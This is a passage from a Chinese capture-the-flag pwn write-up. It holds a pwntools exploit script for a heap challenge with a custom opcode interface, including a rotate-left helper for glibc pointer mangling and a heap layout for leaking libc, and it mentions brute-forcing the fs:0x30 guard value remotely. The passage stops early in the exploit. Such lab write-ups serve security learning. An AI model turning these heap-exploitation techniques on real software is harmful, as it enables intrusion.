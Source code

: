    ![image-20240907160738795](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071607015.png)![image-20240907160806654](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071608778.png)

2. 打本地的EXP，远程可能需要爆破一下TLS的地址（就是那个异或值的地址 fs:0x30）：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   # p = remote("node5.anna.nssctf.cn",28549)
   p = process("./pwn")
   # libc = ELF('./libc.so.6')
   
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc-2.32.so')
   # elf = ELF("./pwn")
   
   
   opcode = b""
   def add(size,index):
       global opcode
       opcode += b"\x01" + p8(index) + p16(size)
       
   
   def edit(index, content):
       global opcode
       opcode += b"\x04" + p8(index) + p16(len(content)) + content
   
   def show(index):
       global opcode
       opcode += b"\x03" + p8(index)
   def free(index):
       global opcode
       opcode += b"\x02" + p8(index)
   
   def run():
       global opcode
       opcode += b"\x05"
       p.sendline(opcode)
       opcode = b""
   
   # 加密函数 循环左移
   def rotate_left_64(x, n):
       # 确保移动的位数在0-63之间
       n = n % 64
       # 先左移n位
       left_shift = (x << n) & 0xffffffffffffffff
       # 然后右移64-n位，将左移时超出的位移动回来
       right_shift = (x >> (64 - n)) & 0xffffffffffffffff
       # 合并两部分
       return left_shift | right_shift
   
   # 泄漏libc
   add(0x4b0,15)    #15 隔开
   add(0x480,0)    #0
   add(0x4b0,15)    #15 隔开
   edit(15,b"./flag\x00")
   add(0x4a0,1)    #1
   add(0x4b0,13)    #15
   add(0x470,2)    #2
   add(0x4b0,15)    #15 隔开
   run()
   ```
